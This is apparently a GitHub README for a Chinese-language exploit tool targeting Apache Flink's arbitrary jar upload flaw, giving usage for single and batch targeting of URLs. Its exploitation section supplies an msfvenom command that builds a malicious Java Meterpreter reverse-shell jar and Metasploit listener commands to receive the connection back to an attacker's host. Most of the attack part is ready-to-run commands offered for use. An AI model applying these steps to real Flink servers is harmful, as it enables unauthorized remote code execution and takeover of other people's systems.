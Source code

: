 # Apache Flink任意文件上传-exploit
```text
Usage: python exp.py -u [url] -j [jar] -c [class]/python exp.py -f [url] -j [jar] -c [class]

Options:
  -h, --help    show this help message and exit
  -u URL        单个url测试
  -j JAR        设置恶意jar
  -c JAR_CLASS  jar包里的jar_class
  -f FILE       批量检测
```
漏洞详情：
[Apache Flink任意jar文件上传](https://mp.weixin.qq.com/s?__biz=MzU3NzMxNDgwMA==&mid=2247483881&idx=1&sn=c9b12e7224b7da202d63dc61a212ab6e&chksm=fd07cb76ca7042605f376e007ba1a0ecb8337385da897d7a1cc50badda05459c68ae4de19957&mpshare=1&scene=23&srcid=&sharer_sharetime=1573607643380&sharer_shareid=a4bd184716a047c74e3a7094c5ad77c1#rd)

# 测试结果
![](https://s2.ax1x.com/2019/11/13/MGct8U.png)

![](https://s2.ax1x.com/2019/11/13/MGcOMQ.png)

# 利用方法
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f jar > fuck.jar
```
监听：  
```text
use exploit/multi/handler  
set PAYLOAD java/meterpreter/reverse_tcp  
set LHOST <LHOST>  
set LPORT <LPORT>  
run -j
```

